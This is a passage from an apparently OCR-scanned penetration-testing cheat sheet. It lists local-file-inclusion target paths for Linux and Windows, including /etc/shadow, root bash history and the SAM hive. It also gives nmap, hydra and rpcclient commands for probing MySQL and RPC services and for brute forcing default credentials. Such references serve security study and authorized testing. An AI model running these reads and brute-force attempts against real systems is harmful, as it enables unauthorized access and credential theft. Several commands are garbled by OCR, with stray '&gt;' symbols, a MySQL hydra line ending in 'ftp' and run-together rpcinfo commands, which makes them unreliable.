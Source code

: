 > $ /etc/issue  
> $ /proc/version  
> $ /etc/profile  
> $ /etc/passwd  
> $ /etc/shadow  
> $ /root/.bash\_history  
> $ /var/mail/root  
> $ /var/spool/cron/crontabs/root  
> $ /etc/sysconfig/iptables  
> $ /etc/sysconfig/ip6tables

LFI Windows Files:

> $ %SYSTEMROOT%\repair\system  
> $ %SYSTEMROOT%\repair\SAM  
> $ %SYSTEMROOT%\repair\SAM  
> $ %WINDIR%\win.ini  
> $ %SYSTEMDRIVE%\boot.ini  
> $ %WINDIR%\Panther\sysprep.inf  
> $ %WINDIR%\system32\config\AppEvent.Evt  
> $ c:\windows\system32\drivers\etc\hosts

## MYSQL

Vulnerability Scanning

> $ nmap -p 3306 --script="+\*mysql\* and not brute and not dos and not fuzzer" -vv -oN mysql &gt; $ip

Deafult Creds

> $ hydra -s 3306 -C /usr/share/sparta/wordlists/mysql-default-userpass.txt -u -f &gt; $ip ftp

Public Exploit

## RPC

Find NFS Port

> $ nmap -p 111 --script=rpcinfo.nse -vv -oN nfs\_port &gt; $ip

Services Running

> $ rpcinfo –p &gt; $ip $ rpcbind -p rpcinfo –p x.x.x.x

Null Session/User Rpc login

> $ rpcclient -U "" &gt; $ip  
> ▪ srvinfo  
> ▪ enumdomusers  
> ▪ enumprivs  
> ▪ enumalsgroups domain  
> ▪ lookupnames administrators  
> ▪ querydominfo  
> ▪ enumdomusers  
> ▪ queryuser john
